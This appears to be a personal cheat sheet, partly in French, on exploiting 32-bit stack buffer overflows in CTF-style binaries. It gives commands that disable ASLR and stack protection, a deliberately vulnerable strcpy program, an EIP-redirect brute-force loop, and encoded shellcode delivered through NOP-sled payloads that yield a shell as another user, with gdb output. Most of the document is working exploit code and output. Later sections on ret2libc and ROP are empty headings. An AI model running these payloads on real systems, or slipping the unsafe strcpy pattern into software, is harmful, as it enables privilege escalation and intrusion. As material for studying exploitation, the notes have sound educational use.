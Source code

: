# Buffer overflow

## Tools

Plugin pour gdb : https://github.com/longld/peda
string xxx
test eax, eax : caracteristique des comparaisons de strings
objdump -D buffer_01


## Payloads

### dash
````
"\xeb\x11\x5e\x31\xc9\xb1\x32\x80\x6c\x0e\xff\x01\x80\xe9\x01\x75\xf6\xeb\x05\xe8\xea\xff\xff\xff\x32\xc1\x51\x69\x30\x30\x74\x69\x69\x30\x63\x6a\x6f\x8a\xe4\x51\x54\x8a\xe2\x9a\xb1\x0c\xce\x81"
````

## Security

gcc -fno-stack-protector -z execstack 
Disable ASLR for one binary : setarch `uname -m` -R /root/mybinary
Disable ASLR for the session : echo 0 > /proc/sys/kernel/randomize_va_space
0: off
1: on
2: on (default value)
Disable ASLR:
sysctl -w kernel.randomize_va_space=0 in /etc/sysctl.conf


</br>

## Simple buffer overflow : overwrite a stack variable

````
$ cat buffer_01.c
#include <stdio.h>
#include <string.h>
int main(int argc, char *argv[])
{
  char  tst=0;
  char name[10];

  strcpy(name, argv[1]);
  printf("Hello %s\n", name);
  if (tst=='Z') printf("Pwnd");
  return 0;
}
$ gcc -fno-stack-protector buffer_01.c -o buffer_01
$ buffer_01 ZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZ
````

</br>

## Internal function call

On regarde les fonctions et leurs adresses
````
$ objdump -D ./strcpy
08048533 <get_flag_1>:
 8048533:	55                   	push   %ebp
 8048534:	89 e5                	mov    %esp,%ebp
 8048536:	83 ec 08             	sub    $0x8,%esp
 8048539:	83 ec 0c             	sub    $0xc,%esp
 804853c:	68 20 86 04 08       	push   $0x8048620
 8048541:	e8 1a fe ff ff       	call   8048360 <system@plt>
 8048546:	83 c4 10             	add    $0x10,%esp
 8048549:	c9                   	leave
 804854a:	c3                   	ret

0804854b <get_flag_2>:
 804854b:	55                   	push   %ebp
 804854c:	89 e5                	mov    %esp,%ebp
 804854e:	83 ec 08             	sub    $0x8,%e
````
get_flag_2 est en 0804854b, on va pousser 0804854b en bout de notre fuzzer, et le faire glisser jusqu'à ce qu'il tombe sur EIP et appelle la fonction get_flag_2
````
$ for i in `seq 1 100`;do echo $i; ./strcpy $(python -c "print 'a'*$i+'\x4b\x85\x04\x08';"); done
````

</br>

## Execute stack payload : before ESP

Context:
- Executable stack
- No canary
- No Address Space Layout Randomization
=> Adresses are hard coded in elf

gcc -z execstack 


Detection à la louche de l'overflow en shell
````
$ for i in `seq 500 510`;do echo $i; ./vuln_basic $(python -c "print 'a'*$i;"); done
````

Detection fine de la position dans gdb
````
gdb
disassemble main
break *0x0804844e
gdb-peda$ run $(python -c "print 'a'*512+'bcdefghijklmnopqrst';")
Stopped reason: SIGSEGV
0x65646362 in ?? ()
=> bcde
gdb-peda$ x/520x $esp
````

On dispose de 512 octets. On va utiliser (512-48) NOP et une payload de 48 octets suivi d'une adresse 1234.
````
 run $(python -c 'print "\x90"*(512-48)+"\xeb\x11\x5e\x31\xc9\xb1\x32\x80\x6c\x0e\xff\x01\x80\xe9\x01\x75\xf6\xeb\x05\xe8\xea\xff\xff\xff\x32\xc1\x51\x69\x30\x30\x74\x69\x69\x30\x63\x6a\x6f\x8a\xe4\x51\x54\x8a\xe2\x9a\xb1\x0c\xce\x81"+"\x01\x02\x03\x04";')
 ````
On vérifie que EIP vaut bien 4x3x2x1
On cherche avec x/520x $esp une adresse dans les nop
"bffffd50"
On l'inverse
"\x50\xfd\xff\xbf" 

On quitte gdb et on fait en shell
````
./vuln_basic  $(python -c 'print "\x90"*(512-48)+"\xeb\x11\x5e\x31\xc9\xb1\x32\x80\x6c\x0e\xff\x01\x80\xe9\x01\x75\xf6\xeb\x05\xe8\xea\xff\xff\xff\x32\xc1\x51\x69\x30\x30\x74\x69\x69\x30\x63\x6a\x6f\x8a\xe4\x51\x54\x8a\xe2\x9a\xb1\x0c\xce\x81"+"\x50\xfd\xff\xbf";')
$ id
uid=1001(user) gid=1001(user) euid=1000(chall) groups=1001(user)
````

</br>

## Execute stack payload : after ESP


On se le refait mais avec la payload après EIP
````
./vuln_basic  $(python -c 'print "\x90"*(512)+"\xc8\xfd\xff\xbf"+"\x90"*100+"\xeb\x11\x5e\x31\xc9\xb1\x32\x80\x6c\x0e\xff\x01\x80\xe9\x01\x75\xf6\xeb\x05\xe8\xea\xff\xff\xff\x32\xc1\x51\x69\x30\x30\x74\x69\x69\x30\x63\x6a\x6f\x8a\xe4\x51\x54\x8a\xe2\x9a\xb1\x0c\xce\x81";')
````

</br>

## Stack/Heap non executable -> return to LibC


</br>

## Hide LibC adresse ALSR 32 bits -> bruteforce search 



</br>

## Hide LibC adresse ALSR 64 bits -> information leak (format string vuln)


</br>

## LibC hidden -> Return Oriented Program (ROP)

https://github.com/0vercl0k/rp

</br>

## Randomize location of code -> Blind ROP

[http://www.scs.stanford.edu/brop/]












